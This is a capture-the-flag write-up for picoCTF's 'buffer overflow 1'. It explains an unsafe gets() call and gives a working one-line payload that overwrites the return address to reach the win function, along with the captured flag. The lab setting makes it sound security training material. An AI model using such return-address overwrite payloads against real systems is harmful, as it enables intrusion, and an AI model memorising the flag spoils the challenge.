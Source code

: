 
# buffer overflow 1

*Medium*

>### Description
>Control the return address
>Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln).
>You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using:
>```
>nc saturn.picoctf.net 62316
>```


### Solution

The program allows us to input any string. It will be stored in "buf" with a buffersize of 32. But the input uses "gets(buf)", this is unsafe since "gets()" does not check for memory sizes, and thus is not safe against buffer overflows. 

We notice that the characters 45-48 we input are reflected into the return address gathered from the "<get_return_address>" method. I also notice that, if I don't do anything malicious, the return address is just the address given in the disassembled binary. So lets try to inject the address of "\<win>" (0x080491f6) into the return address.

Since the application is little endian, we use this payload:

```sh
echo -e "aaaabbbbccccddddaaaabbbbccccddddaaaabbbbcccc\xf6\x91\x04\x08" | nc saturn.picoctf.net 62316
```

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
</details>